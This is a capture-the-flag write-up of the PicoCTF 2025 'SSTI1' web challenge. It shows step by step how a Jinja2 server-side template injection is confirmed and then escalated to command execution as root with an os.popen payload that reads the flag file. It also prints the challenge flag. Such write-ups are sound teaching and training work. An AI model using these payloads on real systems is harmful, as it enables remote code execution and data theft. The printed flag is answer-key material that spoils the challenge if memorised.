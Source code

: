 # 🧠 Challenge: SSTI1 — Server-Side Template Injection

**Category:** Web Exploitation  
**CTF:** PicoCTF 2025  
**Flag:** `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}`

---

## 📝 Description

> I made a cool website where you can announce whatever you want! Try it out!  
>  
> Additional details will be available after launching your challenge instance.

After launching the challenge, a simple input form appeared on the webpage, where whatever text we entered was displayed back — a potential sign of **unsanitized server-side rendering**.

---

## 🔍 Observations

There was a `type` input field where anything we typed was reflected directly in the page output. This hinted at a possible **Server-Side Template Injection (SSTI)** vulnerability.

The hint provided with the challenge also explicitly mentioned:

> **Hint:** Server Side Template Injection

---

## ✅ Step 1: Confirming SSTI

To confirm SSTI, I used a basic template expression:

```jinja2
{{7*7}}
```

The response was:
`49`

This confirmed that the server was evaluating the input as code using a template engine (most likely Jinja2 in Python).

## 🧨 Step 2: Testing Command Execution

Now that SSTI was confirmed, I attempted to execute an OS command using a known Jinja2 SSTI payload:

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}

```
The server returned:

```
uid=0(root) gid=0(root) groups=0(root)
```

This verified that arbitrary command execution was possible on the server.

## 🏁 Step 3: Retrieving the Flag

To read the flag file, I modified the payload:

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /challenge/flag').read() }}

```

And the server returned:

`picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}`

## 🏴 Final Flag

`picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}`

## 🛠️ Tools & Techniques Used

    Jinja2 SSTI payloads

    Browser dev tools

    Template injection exploitation methodology

    Knowledge of Python's built-in object tree

## 📚 References

    PayloadsAllTheThings - SSTI

    HackTricks - SSTI Exploitation

## ⚠️ Disclaimer

This writeup is for educational purposes only. Always follow ethical hacking principles and never exploit systems without permission.





